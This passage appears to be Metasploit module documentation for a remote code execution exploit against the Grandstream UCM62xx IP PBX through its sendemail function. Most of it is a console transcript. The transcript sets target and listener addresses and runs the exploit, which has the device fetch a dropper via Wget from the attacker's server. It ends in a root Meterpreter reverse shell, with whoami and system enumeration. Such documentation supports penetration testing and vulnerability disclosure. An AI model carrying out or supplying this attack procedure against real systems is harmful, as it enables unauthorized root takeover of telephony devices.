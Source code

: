 ### TARGETURI

Specifies base URI. The default value is `/`.

## Scenarios

### Grandstream UCM6202 IP PBX firmware version 1.0.18.13. Get Meterpreter session.

```
msf6 > use exploit/linux/http/grandstream_ucm62xx_sendemail_rce
[*] Using configured payload linux/armle/meterpreter/reverse_tcp
msf6 exploit(linux/http/grandstream_ucm62xx_sendemail_rce) > set RHOST 10.0.0.9
RHOST => 10.0.0.9
msf6 exploit(linux/http/grandstream_ucm62xx_sendemail_rce) > check

[*] Requesting version information from /cgi
[*] The reported version is: 1.0.18.13
[*] 10.0.0.9:8089 - The target appears to be vulnerable. This determination is based on the version string.
msf6 exploit(linux/http/grandstream_ucm62xx_sendemail_rce) > set LHOST 10.0.0.3
LHOST => 10.0.0.3
msf6 exploit(linux/http/grandstream_ucm62xx_sendemail_rce) > run

[*] Started reverse TCP handler on 10.0.0.3:4444
[*] Running automatic check ("set AutoCheck false" to disable)
[*] Requesting version information from /cgi
[*] The reported version is: 1.0.18.13
[+] The target appears to be vulnerable. This determination is based on the version string.
[*] Executing Linux Dropper for linux/armle/meterpreter/reverse_tcp
[*] Using URL: http://0.0.0.0:8080/unV0mXd6RPWD
[*] Local IP: http://10.0.0.3:8080/unV0mXd6RPWD
[*] Client 10.0.0.9 (Wget/1.10.1) requested /unV0mXd6RPWD
[*] Sending payload to 10.0.0.9 (Wget/1.10.1)
[*] Sending stage (903400 bytes) to 10.0.0.9
[*] Meterpreter session 1 opened (10.0.0.3:4444 -> 10.0.0.9:51031 ) at 2022-01-15 12:12:28 -0800
[+] Exploit successfully executed.
[*] Command Stager progress - 100.00% done (113/113 bytes)
[*] Server stopped.

meterpreter > shell
Process 4990 created.
Channel 1 created.
whoami
root
uname -a
Linux UCM6202 3.0.35 #1 SMP PREEMPT Thu Jul 5 15:56:51 CST 2018 armv7l GNU/Linux
cat /proc/cpuinfo
Processor	: ARMv7 Processor rev 10 (v7l)
processor	: 0
BogoMIPS	: 1988.29

processor	: 1
BogoMIPS	: 1987.37

Features	: swp half thumb fastmult vfp edsp neon vfpv3
CPU implementer	: 0x41
CPU architecture: 7
CPU variant	: 0x2
CPU part	: 0xc09
CPU revision	: 10

Hardware	: Freescale i.MX 6Quad/DualLite/Solo based Board
```